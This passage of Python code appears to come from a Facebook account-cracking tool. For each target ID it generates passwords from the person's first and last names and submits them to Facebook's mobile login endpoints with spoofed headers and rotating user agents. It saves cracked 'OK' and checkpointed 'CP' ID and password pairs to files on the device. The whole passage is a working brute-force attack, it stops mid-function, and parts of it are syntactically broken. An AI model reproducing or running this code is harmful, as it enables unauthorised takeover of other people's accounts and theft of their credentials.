                         head = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '"Not_A Brand";v="8", "Chromium";v="120"',, 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Linux"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.7', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        open=session.cookies.get_dict().keys()
                        if "c_user" in open:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [open\033[1;36m•\033[1;37m\033[1;32mOK] %s \033[1;36m•\033[1;37m\033[1;32m %s'%(ids,pas))
                                open(f'/sdcard/open•OK•M1.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in open:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;208m [open•CP] '+ids+' • '+pas+'\033[1;97m')
                                        open(f'/sdcard/open•CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
def m2(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [open] \033[1;36m•\033[1;37m %s \033[1;36m•\033[1;37m OK \033[1;36m•\033[1;37m [\033[1;32m%s\033[1;37m]'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
               	        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'mbasic.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="111", "Google Chrome";v="110"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')